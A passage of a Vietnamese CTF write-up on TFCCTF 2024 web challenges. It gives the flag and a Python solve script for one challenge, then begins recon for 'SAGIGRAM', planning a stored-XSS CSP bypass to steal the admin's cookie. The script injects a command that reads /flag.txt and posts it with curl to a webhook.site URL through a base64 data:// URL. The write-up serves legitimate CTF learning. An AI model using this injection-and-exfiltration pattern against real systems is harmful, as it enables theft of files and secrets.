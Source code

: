 ![image](https://hackmd.io/_uploads/r15cF5RKR.png)

![image](https://hackmd.io/_uploads/H1ggqqRK0.png)
Flag: `TFCCTF{0cc5c7c5be395bb7e7456224117aed15b7d7f25933e126cecfbff41bff12beeb}`

P/s:
1. Các bạn có thể sử dụng script sau: 

```python=
import requests
import base64

REMOTE = "http://challs.tfcctf.com:32210/"
# Proxies to catch request in Burp
proxies = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

payload = b"'' | cat /flag.txt | curl https://webhook.site/acbd8eda-6f05-4d8e-83da-9c029d5a9dd6 -X POST -d @-"
payload = b"data://localhost/," + base64.b64encode(payload)

res = requests.get(REMOTE, params=f'url={payload.decode()}', proxies=proxies)
```

2. Ngoài ra còn 1 cách nữa tại [đây](https://yun.ng/c/ctf/2024-tfcctf/web/safe_content/) 

# SAGIGRAM (MEDIUM)
 
## PREVIEW

![image](https://hackmd.io/_uploads/Skue0cAtA.png)

Vào web thì thấy trang login như trên, test thử 1 vài payload bypass login của SQLi và không có gì cả. Chắc hẳn web sẽ có trang để register.

![image](https://hackmd.io/_uploads/H19jA50FC.png)
Nó đây. Thử register và đăng nhập xem user welcome page sẽ như thế nào.

![image](https://hackmd.io/_uploads/SkUgyi0tC.png)

Tại đây mình có thể edit được profile của mình. Thay đổi description và thay avatar. 
![image](https://hackmd.io/_uploads/HkKVyiRtC.png)

Ngoài ra còn có thể add friend. Chú ý có 3 friend được đề xuất và ở đây xuất hiện admin. 

Mình có thấy 1 điều thú vị ở đây. Web sử dụng CSP với các library, framework như bên dưới.
![image](https://hackmd.io/_uploads/H1e4WiAK0.png)

Mình liên tưởng ngay đến XSS bypass CSP, chúng ta có thể edit profile để stored-XSS lên profile của mình. Nhưng còn phần steal cookie để lấy flag thì admin cần phải ghé thăm page của mình. Mình nghĩ là phần add friend sẽ thực hiện chức năng đó. Vì send_request add friend với admin thì mất tận hơn 20s (admin có id là 1).
